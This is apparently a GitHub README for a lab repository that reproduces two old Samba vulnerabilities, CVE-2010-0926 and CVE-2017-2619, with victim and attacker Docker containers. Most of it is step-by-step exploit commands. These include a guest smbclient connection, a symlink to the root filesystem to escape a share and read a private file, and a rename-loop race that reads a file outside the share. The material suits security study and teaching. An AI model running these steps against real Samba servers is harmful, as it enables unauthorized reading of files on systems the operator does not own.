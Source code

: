 # vulnsamba

This repo contains proof of concept exploits for 2 CVEs on old versions of samba.<br>
For each CVE, there are two docker containers: `victim` and `attacker`.





## Table of contents

* [CVE-2010-0926](#cve-2010-0926)
  * [Information and links](#information-and-links)
  * [Containers description](#containers-description)
  * [Instructions to reproduce](#instructions-to-reproduce)
* [CVE-2017-2619](#cve-2017-2619)
  * [Information and links](#information-and-links-1)
  * [Containers description](#containers-description-1)
  * [Instructions to reproduce](#instructions-to-reproduce-1)





## CVE-2010-0926


### Information and links
More on mitre: [CVE-2010-0926](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-0926)<br>
Category: [CWE-22 Path Traversal](https://cwe.mitre.org/data/definitions/22.html)<br>
Vulnerable version: `samba-3.4.5`<br>
Exploit was taken from: https://www.exploit-db.com/exploits/33599


### Containers description

* `victim` container contains `samba-3.4.5`, which was built from the sources, and configured to have two shares: `public` and `private`
* `attacker` container contains patched version of `samba-3.4.5` client, which allows creating symlinks to outside of a share


### Instructions to reproduce

1. Pull the needed images from dockerhub<br>
`docker pull kezzyhko/cve-2010-0926_victim`<br>
`docker pull kezzyhko/cve-2010-0926_attacker`

1. Run the vulnerable server<br>
`docker run -it --name cve-2010-0926_victim kezzyhko/cve-2010-0926_victim`<br>
You may see no sign of anything happening, but that's ok, `smbd` should have started working in the background

1. Find out the server container's ip<br>
`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' cve-2010-0926_victim`<br>
Remember it, we will need it to connect to the server

1. Run the attacker container<br>
`docker run -it --name cve-2010-0926_attacker kezzyhko/cve-2010-0926_attacker`

1. In the attacker container, connect to the server as a guest using `smbclient`<br>
`smbclient -N \\\\<ip>\\public`<br>
Note, that `\` characters are repeated twice, because they need to be escaped

1. Create the symlink to the root (or any other folder outside share)<br>
`symlink / rootfs`

1. Finally, get the secret from the private share<br>
`cd rootfs`<br>
`cd private`<br>
`get secret.txt`<br>
`exit`<br>
`cat secret.txt`<br>
You should see the following string: `You f0und 7he s3cret!`





## CVE-2017-2619


### Information and links
More on mitre: [CVE-2017-2619](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-2619)<br>
Categories: [CWE-59 Link Following](https://cwe.mitre.org/data/definitions/59.html) and [CWE-362 Race Condition](https://cwe.mitre.org/data/definitions/362.html)<br>
Vulnerable version: `samba-4.5.2`<br>
Exploit was taken from: https://www.exploit-db.com/exploits/41740


### Containers description

* `victim` container contains:
  * `samba-4.5.2`, which was built from the sources
  * configuration to have `public` share
  * `\secret` - file inside the root directory
* `attacker` container contains patched version of `samba-4.5.2` client. Patch adds two commands to `smbclient`:
  * `rename_loop <src1> <src2> <dest>` - infinite loop, which renames `<src*>` to `<dest>` and then back, so that `<dest>` will constantly switch between being `<src1>` and `<src2>`
  * `dump <file>` - infinite loop, which constantly tries to output `<file>`'s contents and ignores errors


### Instructions to reproduce

1. Pull the needed images from dockerhub<br>
`docker pull kezzyhko/cve-2017-2619_victim`<br>
`docker pull kezzyhko/cve-2017-2619_attacker`

1. Run the vulnerable server<br>
`docker run -it --name cve-2017-2619_victim --cap-add=SYS_PTRACE --security-opt seccomp=unconfined kezzyhko/cve-2017-2619_victim`<br>
Here we need to supply additional parameters to be able to use `strace -p` later.<br>
You may see no sign of anything happening, but that's ok, `smbd` should have started working in the background.

1. Find out the server container's ip<br>
`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' cve-2017-2619_victim`<br>
Remember it, we will need it to connect to the server

1. Renaming side of the attack

   1. Run the first attacker container<br>
   `docker run --rm -it --name cve-2017-2619_attacker_1 kezzyhko/cve-2017-2619_attacker`

   1. In the `attacker_1` container, create an empty file, we will need it later<br>
   `touch empty`

   1. Connect to the server as a guest using `smbclient`<br>
   `smbclient -N \\\\<ip>\\public`<br>
   Note, that `\` characters are repeated twice, because they need to be escaped

   1. Enable posix features<br>
   `posix`

   1. Create the symlink to the root directory<br>
   `symlink / link`

   1. Create the normal directory<br>
   `mkdir dir`

   1. Create the empty file inside the normal directory, and name it `secret`<br>
   `put empty dir/secret`

   1. Start the renaming loop<br>
   `rename_loop link dir switching`

1. Reading side of the attack

   1. Run the second attacker container and connect to the server<br>
   `docker run --rm -it --name cve-2017-2619_attacker_2 kezzyhko/cve-2017-2619_attacker`<br>
   `smbclient -N \\\\<ip>\\public`

   1. Inside the `attacker_2` container, start the reading loop<br>
   `dump switching/secret`<br>
   
   1. Some explanation<br>
   At this point, out `attacker_2` client is reading from `switching/secret`, which might be either `link/secret` or `dir/secret`. Theoretically, `smbd` on the `victim` container might check that reading from `switching` is ok, since it is just `dir` inside the share, but then our second attacker will change `switching` to be the `link`, and `victim` will read from `link/secret`, which is equivalent to just `/secret` outside the `public` share.<br>
   Howerver, it is not very likely for this to happen, and it may take a long time to wait. For the sake of PoC, we will slow down the `attacker_2`
   
   1. find out the pid of `smbd` proccess, which handles the `attacker_2`<br>
   For this, run `ps aux` in the `victim` container. The pid we are looking for should be the largest pid with `smbd -D` command.
   
   1. Artificially slow down the proccess<br>
   `strace -p<pid>`
   
   1. Now, look at the output in `attacker_2` process. You should see the following string: `You f0und 7he s3cret!`
